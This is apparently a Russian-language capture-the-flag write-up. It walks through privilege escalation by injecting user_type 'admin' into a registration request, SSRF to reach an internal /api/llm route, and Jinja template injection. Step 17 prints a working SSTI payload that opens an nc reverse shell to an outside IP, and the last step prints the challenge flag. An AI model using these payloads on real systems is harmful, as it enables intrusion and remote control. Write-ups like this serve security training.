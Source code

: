 # Knowhere

1. Сайт пустой, что грустно
2. Похоже, что у нас есть система входа в админку
3. Регистрируемся, не забывая смотреть за запросами
4. Нам прилетает JWT, в котором находится буквально все что передается в JSON на регистрации
5. А прикольно было бы перезаписать поле user_type, но на что?
6. Смотрим js код фронтенда для регистрации и входа - находим фильтр `user_type==="admin"`
7. Перехватываем запрос в Burp Suite и добавляем в JSON `user_type: "admin"`
8. Мы в смешной админке, куда можно загружать файлы и скачивать по ссылке
9. Подсказок в панели НОЛЬ. Переходим к энумерации всего что есть в /api/ (стандартный словарь dirb сгодится)
10. Находим подозрительный /api/docs, заходим и получаем 403
11. SSRF в помощь!
12. Видим странный роут /api/llm
13. Кидаем запрос на этот роут и получаем ответ, что требуется поле "user"
14. Sorry, USERNAME, our chatbot server is not available.
15. А меня зовут `${{<%[%'\"}}%\\.`
16. Ой, Template injection в Jinja...
17. Мы ошиблись, наше имя шелл, реверс шелл (`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/fif;mkfifo /tmp/fif;cat /tmp/fif|/bin/bash -i 2>&1|nc 1.1.1.1 7777 >/tmp/fif').read() }}`, ну или бахнуть meterpreter)
18. Получаем шелл
19. А там в корне /flag.txt (`vrnctf{llm_pr4nk_f0r_th3_search1ng_0n3s}`)